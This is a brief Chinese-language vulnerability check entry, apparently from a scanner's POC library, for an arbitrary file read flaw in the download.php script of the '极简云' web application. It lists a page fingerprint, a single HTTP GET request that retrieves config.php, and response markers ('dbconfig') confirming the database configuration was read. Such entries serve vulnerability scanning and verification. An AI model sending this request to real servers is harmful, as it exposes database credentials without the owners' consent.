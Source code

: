 ﻿# 极简云 download.php 任意文件读取漏洞

> 更新时间：2024-04-07

> 漏洞编号：

> 漏洞说明：

> 漏洞特征："/assets/img/bg/logo_white.png"

> 验证脚本：HTTP

```
GET /download.php?file=20b6cb088a8d5c444074&filename=config.php HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：dbconfig

> 上传文件定位：

> 验证文件来源：极简云 download.php 任意文件读取漏洞.poc

